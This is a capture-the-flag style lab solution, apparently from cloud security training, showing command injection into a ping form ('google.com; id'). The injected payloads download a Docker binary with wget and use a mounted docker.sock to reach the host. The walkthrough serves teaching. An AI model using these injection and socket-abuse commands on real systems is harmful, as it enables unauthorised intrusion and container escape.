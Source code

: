 # Docker escape using Pod Volume Mounts to access the node and host systems - Solution

* Navigate to the application `http://connectivity-check.student-uniquename.cloudsec.training`

* Login to the application using `username: sysadmin` and `password: superpowers`

![](images/app-login.png)

* Now try pinging `google.com`

![](images/ping-google.png)

* We can see that application is running the `ping` system command by looking at the output. Let's run some other system command by using a semicolon to separate two commands, as we know it's running in Linux system. For example, providing an input of `google.com; id` would trigger `ping -c 2 google.com;id` in the backend.

![](images/ping-google-id.png)

* Now that we have confirmed that the application is vulnerable to a command injection vulnerability. we can execute other commands and do other interesting stuff within this container.

* Let's explore the file system and other services. Start by looking inside the custom docker container.

```bash
;ls -l /custom/docker/
```

![](images/custom-docker-socket.png)

* Looks like the `docker.sock` is mounted from the host system as a volume mount

* Download the docker binary to access this socket and perform docker operations within the container

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
```

![](images/download-docker.png)

* Now let's extract the binary to root system

```bash
;tar -xvzf /root/docker-18.09.1.tgz -C /root/
```

![](images/extract-docker-binary.png)

* Now, we can gain access to the host system by running the following docker commands

```bash
;/root/docker/docker -H unix:///custom/docker/docker.sock ps

;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

![](images/host-docker-containers.png)

![](images/host-docker-images.png)